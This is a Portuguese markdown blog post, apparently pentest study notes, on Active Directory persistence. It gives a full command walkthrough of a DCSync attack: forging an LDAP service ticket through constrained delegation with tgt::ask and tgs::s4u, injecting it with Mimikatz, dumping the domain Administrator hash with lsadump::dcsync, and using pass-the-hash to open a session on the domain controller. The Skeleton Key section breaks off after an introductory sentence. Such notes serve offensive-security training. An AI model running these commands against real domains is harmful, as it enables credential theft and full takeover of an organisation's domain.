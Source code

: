 ```yaml
---
title: "Active Directory - Persistência no Domínio"
tags: [Windows, Active Directory]
categories: ActiveDirectory
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/persistencia.png)

# Considerações Iniciais

Aqui vamos abordar duas técnicas muito utilizadas quando se fala de persistência em ambientes de Active Directory, o ataque de `DCSync` e o `Skeleton Key`

É importante notar que devemos ter acesso do Domain Controller pra realizar esses ataques, uma vez que estão atrelados à pós-exploração.

## DCSYnc

Com o ataque de DCSync vamos ter acessso ao hash do Administrator da DC e consequentemetne a máquina através do PTH

A ideia é parecida com a do Constrained Delegation, só que vamos gerar tickets para o LDAP

Geramos o ticket para LDAP e injetamos ele

```
tgt::ask /user:dbservice /domain:DOMÍNIO /ntlm:HASH_DO_DBSERVICE /ticket:dbservice.kirbi
tgs::s4u /tgt:TGT_dbservice@XXXX_krbtgt~XXXX@XXXX.kirbi /user:Administrator@XXXX /service:time/XXXXX.local|ldap/XXXX.local
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@XXXX@XXXX_ldap~XXXX@XXXX_ALT.kirbi"'
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/persistencia1.png)

Agora executamos o ataque de DCSync e extraimos o hash do administrator

`Invoke-Mimikatz -Command '"lsadump::dcsync /user:usfun\Administrator"'`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/persistencia2.png)

Bom, com o hash fica fácil de fazermos um PTH e ter acesso ao DC

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:XXXXXX /ntlm:hash_administrator_dc /run:powershell.exe"'
Enter-PSSession -ComputerName dc
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/persistencia3.png)

Esse foi o ataque de `DCSync`, a partir do Constrained delegation conseguimos gerar tickets para o LDAP e sendo assim extrair o hash ntlm do administrator do DC!

## Skeleton Key

O próximo ataque é chamado de `Skeleton Key`, ele tem esse nome por que vai nos permitir acessar qualquer máquina do domínio com uma senha mestre, a partir do momento que tomamos o controle do DC.